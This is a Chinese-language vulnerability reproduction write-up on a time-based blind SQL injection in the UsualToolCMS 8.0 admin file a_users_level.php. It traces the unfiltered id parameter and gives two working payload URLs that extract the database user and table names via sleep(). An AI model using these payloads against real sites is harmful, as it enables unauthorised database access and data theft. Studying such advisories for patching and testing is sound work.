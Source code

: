 UsualToolcms 8.0 后台盲注
=========================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

### 漏洞分析

./cmsadmin/a\_users\_level.php第19行和第26行，id参数可控

![](./resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId25.png)

从get处获取id参数，id存在无任何过滤，当postt
id时，通过sqlcheck函数进行过滤，来到文件./class/UsualToolCMS\_INC.php第33行，将(\',\\,\",null)转义，34行调用sqlchecks函数，比没过滤sql，然而a\_users\_level.php第19行id不是字符

![](./resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId26.png)

### 复现

可以利用时间盲注来进行sql注入攻击，payload如下：

    a.当前数据库：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1)
    b.表：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1)

![](./resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId28.png)

时间盲注验证脚本

![](./resource/UsualToolcms8.0a_users_level.php后台盲注/media/rId29.png)

image
